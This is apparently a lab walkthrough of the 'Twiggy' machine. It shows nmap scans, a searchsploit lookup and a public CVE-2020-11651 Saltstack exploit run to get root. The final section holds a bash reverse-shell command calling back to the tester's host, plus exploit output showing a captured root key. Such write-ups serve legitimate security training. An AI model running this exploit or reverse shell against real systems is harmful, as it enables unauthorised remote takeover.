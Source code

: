 # Twiggy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.62
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:10 +08
Nmap scan report for 192.168.219.62
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

Did a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,53,80,4505,4506,8000 -sC -sV --min-rate 3000 192.168.219.62      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:11 +08
Nmap scan report for 192.168.219.62
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

### Salt API --> RCE

Port 8000 looked the most interesting since it was only returning JSON data. Visiting it just shows a few 'clients':

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

When we view the headers, we can see that this is using a program called Salt API:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

There are some exploits for Salt here:

```
$ searchsploit salt    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Oracle MySQL / MariaDB - Insecure Salt Generation Security | linux/remote/38109.pl
SaltOS - 'download.php' Cross-Site Scripting               | php/webapps/37642.txt
SaltOS Erp Crm 3.1 r8126 - Database File Download          | php/webapps/45734.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection                   | php/webapps/45731.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection (2)               | php/webapps/45733.txt
Saltstack 3000.1 - Remote Code Execution                   | multiple/remote/48421.txt
----------------------------------------------------------- ---------------------------------
```

The last one looks like the most reliable, and it works:

```
$ python3 poc.py --master 192.168.219.62 --exec 'bash -i >& /dev/tcp/192.168.45.182/80 0>&1'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.219.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: EhN8Uknfm4lWhieX13oN5C+NiHo63BzPifodAAOygyu3DL3ZUnCX4BEV9cvD/zT4NfCHQ22Hq7s=
[+] Attemping to execute bash -i >& /dev/tcp/192.168.45.182/80 0>&1 on 192.168.219.62
[+] Successfully scheduled job: 20230705031527947368
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Rooted!
